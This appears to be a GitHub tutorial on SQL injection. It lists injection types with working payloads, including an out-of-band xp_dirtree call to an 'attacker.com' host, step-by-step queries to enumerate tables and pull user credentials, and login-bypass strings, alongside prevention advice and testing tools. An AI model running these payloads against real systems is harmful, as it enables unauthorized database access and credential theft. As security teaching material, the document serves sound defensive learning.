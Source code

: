 # SQL Injection (SQLi)     
![image](https://github.com/user-attachments/assets/55070fab-31bb-4429-8208-d6e5df8a223a)

SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries executed by an application’s database. This can lead to:  
> Unauthorized access to sensitive data  
> Bypassing authentication mechanisms  
> Data modification or deletion  
> Gaining control over the database server  

### **1 How SQL Injection Works**  
When an application fails to properly sanitize user input, attackers can insert malicious SQL code into queries.  

Example: Consider a vulnerable login system using the following SQL query:  
```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```
If an attacker enters `' OR 1=1 --` as the username, the query becomes:  
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```
Since `1=1` is always true, the query bypasses authentication, granting access without a valid password.

---

## **2. Types of SQL Injection**  

### **1) Error-Based SQL Injection**  
Relies on extracting information from database error messages.  

**Example (MySQL)**:
```sql
' ORDER BY 1 --   # Checking number of columns
' UNION SELECT NULL, NULL, @@version --  # Extract database version
```
---
### **2) Boolean-Based (Blind) SQL Injection**  
The attacker infers information based on application behavior.  

**Example (Testing for User Existence):**  
```sql
' AND 1=1 --  # Valid query (application responds normally)
' AND 1=2 --  # Invalid query (application behaves differently)
```
If the second query causes a different response, the site is vulnerable.

---
### **3) Time-Based Blind SQL Injection**  
Used when no visible output is returned. The attacker delays the response to confirm injection.  

**Example (MySQL)**:
```sql
' OR IF(1=1, SLEEP(5), 0) --  # Causes a 5-second delay if the query is executed
```
---
### **4) Union-Based SQL Injection**  
Uses the `UNION` SQL operator to extract data.  

**Example (Extracting Database Name):**  
```sql
' UNION SELECT database(), NULL, NULL --
```
---
### **5) Out-of-Band SQL Injection**  
Extracts data via external interactions (DNS, HTTP requests).  

**Example (SQL Server – Sending Data to an Attacker's Server):**  
```sql
'; EXEC xp_dirtree('//attacker.com/payload') --
```
---

## **3. Exploiting SQL Injection**  
### **1) Finding the Number of Columns**  
```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --   # Increase the number until an error occurs
```
---
### **2) Extracting Database Version**  
```sql
' UNION SELECT @@version, NULL, NULL --
```
---
### **3) Extracting Table Names**  
```sql
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() --
```
---
### **4) Extracting Column Names from a Table**  
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```
---
### **5) Extracting User Credentials**  
```sql
' UNION SELECT username, password FROM users --
```
---

## **4. Bypassing Authentication with SQL Injection**
### Classic Bypass Payloads  
- `admin' --`  
- `' OR '1'='1' --`  
- `" OR 1=1 #`  
- `admin' OR 1=1 --`  

---

## **5. Preventing SQL Injection**  

### **1) Use Prepared Statements (Parameterized Queries)**  
Ensures user input is treated as data, not SQL code.  

**Example (PHP – MySQLi Prepared Statement):**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

**Example (Python – SQLite3 Prepared Statement):**
```python
cursor.execute("SELECT * FROM users WHERE username=? AND password=?", (user, password))
```

---
### **2) Input Validation & Whitelisting**  
- Allow only expected input formats (e.g., email, numeric values).  
- Reject special characters like `'`, `--`, `;`, `"`  

---
### **3) Escape Special Characters**  
If prepared statements are not available, use escaping.  

**Example (PHP – MySQLi Escape):**
```php
$username = mysqli_real_escape_string($conn, $_GET['username']);
```
---
### **4) Use Least Privilege Principle**  
- Grant database users minimal privileges.  
- Avoid using `root` or `admin` accounts in web applications.  
- Restrict `DROP`, `DELETE`, and `UPDATE` permissions where unnecessary.  

---
### **5) Implement Web Application Firewalls (WAFs)**  
Use security tools to block malicious requests.  
- **ModSecurity**  
- **Cloudflare WAF**  
- **Imperva WAF**  

---

## **6. SQL Injection Testing Tools**
### **1) SQLMap (Automated Testing)**
```bash
sqlmap -u "http://example.com/login.php?id=1" --dbs
```
---
### **2) Burp Suite (Manual Testing)**
- Intercept and modify requests.  
- Test SQLi payloads in form fields.  

---
### SQLi Tools & installation 
- **Havij** – GUI-based SQL Injection tool (https://github.com/MyIBGit/Havij-SQL-Injection-tool).  
- **NoSQLMap** – For NoSQL injection attacks (https://github.com/codingo/NoSQLMap.git).  
- **BBQSQL** – SQLi testing tool for blind SQL injections (https://github.com/CiscoCXSecurity/bbqsql).  

---




